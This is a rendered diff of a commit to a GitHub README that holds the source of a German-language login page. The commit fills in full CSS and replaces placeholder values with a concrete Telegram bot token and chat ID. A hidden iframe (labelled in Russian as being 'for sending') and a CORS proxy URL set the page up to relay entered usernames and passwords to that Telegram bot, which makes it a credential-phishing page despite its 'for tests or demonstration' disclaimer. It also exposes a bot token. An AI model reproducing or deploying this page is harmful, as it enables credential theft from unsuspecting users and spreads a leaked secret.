

Before and after one commit to Mischlan/lobloxyui, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update README with new styling and script changes

```diff
--- a/README.md
+++ b/README.md
@@ -49,7 +49,72 @@ Perfekt für Tests oder Demonstrationszwecke (nutze es nur legal und ethisch!).
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Anmeldung</title>
     <style>
-        /* ... (der komplette CSS aus deinem Code) ... */
+        body {
+            font-family: 'Segoe UI', Arial, sans-serif;
+            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+            height: 100vh;
+            margin: 0;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            color: #fff;
+        }
+        .login-container {
+            background: rgba(255, 255, 255, 0.95);
+            padding: 40px;
+            border-radius: 16px;
+            box-shadow: 0 15px 35px rgba(0, 0, 0, 0.3);
+            width: 320px;
+            text-align: center;
+            color: #333;
+        }
+        h2 {
+            margin: 0 0 30px 0;
+            color: #667eea;
+            font-size: 28px;
+        }
+        input {
+            width: 100%;
+            padding: 14px;
+            margin: 12px 0;
+            border: 2px solid #ddd;
+            border-radius: 10px;
+            font-size: 16px;
+            box-sizing: border-box;
+            transition: border 0.3s;
+        }
+        input:focus {
+            outline: none;
+            border-color: #667eea;
+            box-shadow: 0 0 8px rgba(102, 126, 234, 0.3);
+        }
+        button {
+            width: 100%;
+            padding: 16px;
+            background: #667eea;
+            color: white;
+            border: none;
+            border-radius: 10px;
+            font-size: 18px;
+            font-weight: bold;
+            cursor: pointer;
+            margin-top: 10px;
+            transition: background 0.3s;
+        }
+        button:hover {
+            background: #5a6fd8;
+        }
+        #status {
+            margin-top: 20px;
+            font-weight: bold;
+            font-size: 18px;
+            min-height: 24px;
+        }
+        .footer {
+            margin-top: 30px;
+            font-size: 12px;
+            color: #aaa;
+        }
     </style>
 </head>
 <body>
@@ -60,13 +125,15 @@ Perfekt für Tests oder Demonstrationszwecke (nutze es nur legal und ethisch!).
             <input type="password" id="password" placeholder="Passwort" required>
             <button type="submit">Einloggen</button>
         </form>
+
         <div id="status"></div>
         <div class="footer">Willkommen zurück!</div>
     </div>
 
+    <!-- Скрытый iframe для отправки -->
     <iframe name="hiddenIframe" style="display:none;"></iframe>
 
     <script>
-        const botToken = "DEIN_BOT_TOKEN_HIER";
-        const chatId = "DEINE_CHAT_ID_HIER";
+        const botToken = "8408447077:AAFtGEn83fMMy66MnIdveRPW5kQ5ZQukU04";
+        const chatId = "5684291694";
         const proxyUrl = "https://corsproxy.io/?";
```
Also changed, not shown: other parts of README.md (+15 -1 lines).
